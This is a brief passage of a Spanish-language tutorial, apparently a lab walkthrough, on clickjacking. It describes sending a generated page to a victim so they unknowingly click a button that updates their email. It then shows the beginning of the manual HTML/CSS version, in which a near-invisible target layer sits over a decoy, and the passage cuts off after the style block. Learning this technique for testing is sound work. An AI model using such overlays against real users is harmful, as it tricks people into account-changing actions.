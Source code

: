Seleccionamos start y el botón de actualizar el email. Terminamos y guardamos.

<figure><img src="../../.gitbook/assets/image (1495).png" alt=""><figcaption></figcaption></figure>

Con el código dado lo enviamos a la víctima. También de manera manual sería así.

```
<!DOCTYPE html>
<html>
<head>
    <style>
        .target {
            position: relative;
            z-index: 2;
            height: 600px;
            width: 1000px;
            opacity: 0.00001337;
        }.decoy {
            position: absolute;
            z-index: 1;
            top: 465px;
            left: 50px;
        }
    </style>
```